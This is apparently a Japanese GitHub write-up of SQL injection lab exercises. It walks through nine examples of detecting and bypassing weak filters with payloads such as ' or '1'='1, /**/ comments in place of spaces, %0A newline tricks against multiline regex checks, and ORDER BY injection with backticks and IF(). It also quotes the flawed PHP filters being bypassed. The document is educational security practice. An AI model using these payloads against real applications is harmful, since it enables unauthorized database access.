










# <span style="color: blue;">Example 1</span>

この最初の例では、パラメーターが文字列であることがわかり、テーブルに 1 行が表示されます。サーバー側のコードを理解するには、次のことを調べてみる必要があります。

- 「?name=root1234」を使って、「1234」のような余計な文字を追加しても、テーブルにレコードは表示されません。ここから、リクエストは何らかのマッチングで私たちの値を使用していると推測できます
- ?name=root+++ (エンコード後)を使用して、リクエストにスペースを注入すると、レコードが表示されます。MySQLは（デフォルトでは）比較を行う際に文字列の末尾のスペースを無視する
- ?name=root "を使用してダブルクォートを注入すると、テーブルにレコードが表示されません
- シングルクオートで ?name=root’ を指定すると、テーブルが表示されなくなります。おそらく、何かを壊したのでしょう。

リクエストは次のように見える必要があると推測できます。

```
SELECT * FROM users WHERE name='[INPUT]';
```


- <span style="color: greenyellow;">?name=root’ and ‘1’='1</span>: 最初のクエリの引用符が、インジェクションの最後の引用符を閉じます。
- <span style="color: greenyellow;">?name=root’ and ‘1’=‘1’ # (don’t forget to encode #)</span>: 最初のクエリの引用符はコメントアウトされます。
- <span style="color: greenyellow;">?name=root’ and 1=1 # (don’t forget to encode #)</span>: 最初のクエリの引用符はコメントアウトされ、 ‘1’=‘1’ の ’ は不要になります。
- <span style="color: greenyellow;">?name=root’ # (don’t forget to encode #)</span>: 最初のクエリの引用符はコメントアウトされ、1=1も必要ありません。
- <span style="color: greenyellow;">?name=root’ and ‘1’='0</span>: 最初のクエリの引用符は、私たちのインジェクションの最後にあるものを閉じます。選択基準は常に偽を返すので、ページは結果(空のテーブル)を返してはいけません。
- <span style="color: greenyellow;">?name=root’ and ‘1’='1 # (# のエンコードを忘れないでください):</span> 最初のクエリの引用符がコメントアウトされます。上のクエリと同じ結果になるはずです。
- <span style="color: greenyellow;">?name=root’ or ‘1’='1</span>: 最初のクエリの引用符は、インジェクションの最後のものを閉じます。同じ結果が得られるかもしれませんが、この例では値がフィルタとして使用されているので、それはあり得ません (ページが一度に一つの結果しか表示しないのとは対照的です)。
- <span style="color: greenyellow;">?name=root’ or ‘1’=‘1’ # (# のエンコードを忘れないでください)</span>: 最初のクエリの引用符はコメントアウトされます。上のクエリと同じ結果になるはずです。

```
' or '1'='1
```



# <span style="color: blue;">Example 2</span>
Example1と同じインジェクションを使うと「ERROR NO SPACE」というエラーが出る

スペースを全て無くす
```
'or'1'='1
```



# <span style="color: blue;">Example 3</span>
この例では、開発者がスペースとタブ区切り文字をブロックしています。このフィルタを回避する方法があります。   
キーワードの間にコメントを使用することで、スペースやタブ区切りのない有効なリクエストを構築することができます。次のようなSQLコメントを使用できます。   
<span style="color: greenyellow;">/**/</span>.このコメントを使って、前の例のすべてのスペースやタブ区分を置き換えることで、この脆弱性をテストすることができるはずです。
```
'/**/or/**/'1'='1
```



# <span style="color: blue;">Example 4</span>
この場合、私はURLの先頭に「.」を付けています。また、". "や" -" ... "などを追加することもできます。さらに、ID番号を変更したり、管理者アカウントを探したりすることができます。

```
. or 1=1
```

# <span style="color: blue;">Example 5,6</span>
この例は、検出の面では、前の例と本当によく似ています。コードを見ると、開発者が正規表現を使ってSQLインジェクションを防ごうとしたことがわかります。
```
if (!preg_match('/^[0-9]+/', $_GET["id"])){
    die("ERROR INTEGER REQUIRED");
}
```
しかし、使用されている正規表現は正しくありません。これは、パラメータidが数字で始まることを保証するだけです。本脆弱性の検出には、前回使用した検出方法を使用することができます。   

Example6  
この例はその逆です。開発者がまた正規表現を間違えてしまったのです。
```
if (!preg_match('/[0-9]+$/', $_GET["id"])){
    die("ERROR INTEGER REQUIRED");
}
```
この正規表現は、パラメータ id が数字で終わっていることだけを保証します ($ 記号のおかげです)。パラメータの先頭が有効であること(^がないこと)は保証されません。以前学習したメソッドを使用することができます。ペイロードの末尾に整数を追加するだけです。この桁は、ペイロードの一部であっても、SQLコメントの後に配置してもかまいません。1 あるいは 1=1 # 123.
```
or 1=1
```



# <span style="color: blue;">Example 7</span>
悪い正規表現のもう 1 つの最後の例:   
```
if (!preg_match('/^-?[0-9]+$/m', $_GET["id"])) {
  die("ERROR INTEGER REQUIRED");    
}
```
ここでは、文字列の先頭 ( ^) と末尾 ( $) が正しくチェックされていることがわかります。ただし、正規表現には修飾子PCRE_MULTILINE( /m) が含まれています。multiline 修飾子は、行の 1 つに整数のみが含まれていることのみを検証するため、次の値が有効になります (それらの新しい行のおかげで)。   

- 123\nPAYLOAD;    
- PAYLOAD\n123;    
- PAYLOAD\n123\nPAYLOAD.   

これらの値を URL で使用する場合はエンコードする必要がありますが、エンコードと前述の手法を使用すると、この脆弱性を検出できるはずです。   
この例では"/n"でフィルターをパスすることが出きる。なぜなら、式には修飾子「\m」が含まれているからです。 行の 1 つに整数が含まれているかどうかを検証します。  
<span style="color: greenyellow;">
改行コード  
\n　→　%0A
</span>
```
=2%0A or 1=1
```


# <span style="color: blue;">Example 8</span>
この例では、パラメーター名は、SQL クエリでエコーされる場所を示しています。MySQL のドキュメントを調べると、ORDER BYステートメント内で値を指定する方法が 2 つあります。

直接: ORDER BY name;
バックティック間: ORDER BY `name`.
このステートメントは、一重引用符または二重引用ORDER BY符内の値とともに使用できません。これを使用すると、MySQL はこれらを定数と見なすため、何もソートされません。'"

このタイプの脆弱性を検出するために、さまざまなペイロードを使用して同じ結果を得ることを試みることができます。

- name` #(#エンコードする必要があります) 同じ結果が得られるはずです。
- name` ASC #(#エンコードする必要があります) 同じ結果が得られるはずです。
- name`, `name: 最初のクエリのバックティックは、インジェクションの最後にあるものを閉じます。   

また、次のペイロードでは異なる結果が得られるはずです。

- name` DESC #(#エンコードする必要があります)。
- name` 構文が正しくないため、結果は得られません。
```
`%23
```


#  <span style="color: blue;">Example 9</span>
この例は前のものと似ていますが、バックチック ``` の代わりに

この場合、バックティックなしで直接リクエストに注入しているので、他にも使用できるメソッドがあります。MySQL の IF 文を使用して、より多くのペイロードを生成することができます。

- IF(1, name,age) は同じ結果になるはずです。
- IF(0, name,age) は異なる結果になるはずです。カラムが年齢でソートされていることがわかりますが、ソート関数は値を整数ではなく文字列として比較しています(10は2より小さい)。これはIFの副作用で、カラムのいずれかが文字列を含んでいる場合、値を文字列としてソートしてしまうのです。
```
IF(1, name,age)
```

```
IF(0, name,age) 
```
